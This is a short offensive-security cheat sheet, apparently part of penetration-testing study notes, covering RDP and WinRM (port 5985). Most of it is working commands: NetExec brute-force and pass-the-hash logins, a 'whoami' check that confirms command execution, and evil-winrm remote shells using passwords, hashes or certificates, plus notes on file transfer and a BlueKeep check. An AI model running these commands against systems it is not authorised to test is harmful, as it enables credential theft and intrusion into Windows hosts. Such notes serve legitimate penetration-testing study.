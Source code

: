 ```
nxc rdp $IP -u username -p pass.txt --continue-on-success --rdp-timeout 30
```

* Check for bluekeep

## 5985-WinRM

* Brute Force

```
nxc winrm $IP -u users.txt -p pass.txt --continue-on-success
```

```
nxc winrm $IP -u users.txt -H hash --continue-on-success
```

* us `-x 'whoami'`  for verifying command execution

* Evil-Winrm

```
evil-winrm -i $IP -u user -p pass
```

```
evil-winrm -i $IP -u user -H hash
```

```
evil-winrm -i $IP -S -k private.key -c public.key
```

* Use `upload` and `download` commands to upload and download files
* Use `services` command to list services
